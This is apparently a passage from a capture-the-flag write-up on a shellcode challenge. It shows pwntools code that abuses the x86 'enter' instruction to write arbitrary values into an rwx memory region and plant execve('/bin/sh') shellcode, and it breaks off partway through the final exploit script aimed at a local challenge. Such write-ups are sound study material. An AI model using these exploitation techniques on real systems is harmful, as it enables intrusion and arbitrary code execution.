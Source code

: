 ```python
def change_esp(addr):
    sc = b""
    sc += encode_addr(addr)
    sc += asm("leave")

    return sc

def write_dword(val, off):
    print("Write: ", hex(val))
    sc = b""
    # prevent segfault
    sc += change_esp(0x8058000 - off)
    sc += encode_addr(val)
    sc += asm("enter 0xc1c1, 0xc1")

    return sc
```
Since we are limited in the bytes we can send we have to use high values as operands to the `enter` instruction. Due to this we need to be aware of two things:
1. We have to make sure that `esp - operand1` is a valid address, else `enter` will segfault.
2. Due to the nesting level being > 0 (second operand) `enter` will push additional values onto the stack before pushing `ebp` which contains our arbitrary value.

In order to prevent the segfault we can chose an address somewhere in the `rwx` memory region which is far enough away from unmapped regions. To deal with `enter` pushing additional values onto the stack we have to write our shellcode in reverse since otherwise the additional `push` instructions would destroy some of the values we have already pushed.

Being able to write arbitrary values into arbitrary memory locations we can now simply write an `execve("/bin/sh", 0, 0)` shellcode somewhere and return to it.

### Final exploit
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 127.0.0.1 --port 4000

# dont forget to: patchelf --set-interpreter /tmp/ld-2.27.so ./test
# dont forget to set conext.arch. E.g amd64

from pwn import *
import string

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = 'python3'
context.terminal = ['tmux', 'new-window']
argv = ["chal.py"]
env = {}

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 4000)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```